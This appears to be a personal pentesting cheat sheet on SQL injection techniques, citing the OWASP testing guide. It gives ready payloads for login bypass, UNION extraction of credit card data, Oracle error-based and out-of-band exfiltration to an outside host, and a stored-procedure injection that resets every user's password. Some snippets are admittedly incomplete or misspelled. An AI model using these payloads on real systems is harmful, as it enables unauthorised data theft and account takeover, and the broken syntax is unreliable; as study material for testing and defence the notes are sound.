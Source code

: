 # SQL Injection

## Standard Exploitation

* Add an always true condition :
  * `1' or '1' = '1`
  * `1' or 1 = 1 #` \(comment instead of closing the string\)

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# To that : 
SELECT * FROM Users WHERE Username=’admin’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Use `LIMIT` if needed
* Stack request by terminating it with `;`

## Union Exploitation

* Extend a `SELECT` request with an `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# To that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* The select of your union needs to have the same number of columns as the initial select, and of the same type
  * To guess the right number of columns, use `ORDER BY <nb>` \(if it returns a result instead of an error, it's the right number\)
  * To guess the type, start with `NULL` and check the error message
* `ALL` is used against `DISTINCT`
* If only the first result is shown \(aka, the one from the initial request\), give an invalid id so that it's the result of the union which will be use

## Error Based Exploitation

* With oracle, use this type of payload :

```sql
|| UTL_INADDR. GET_HOST_NAME((SELECT user FROM DUAL)) --
```

* It'll return : `ORA-292257: host SCOTT unknown`, revealing the user

{% hint style="info" %}
Check the syntax for other DBMS
{% endhint %}

## Out of band exploitation

* With Oracle

```sql
|| UTL_HTTP. request(‘testerserver.com:80’ || (SELET user FROM DUAL) --
```

{% hint style="info" %}
* Isn't a `)` missing ?
* Check the syntax for other DBMS
{% endhint %}

## Stored Procedure Injection

* This type of syntax exist

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

* Which we can abuse with  :`1 from users; update users set password = ‘password’; select *`
* But i don't know this syntax so i don't know how it works

## Insider Info

If you have an injection in a place where doing an `1'or '1'='1` isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research

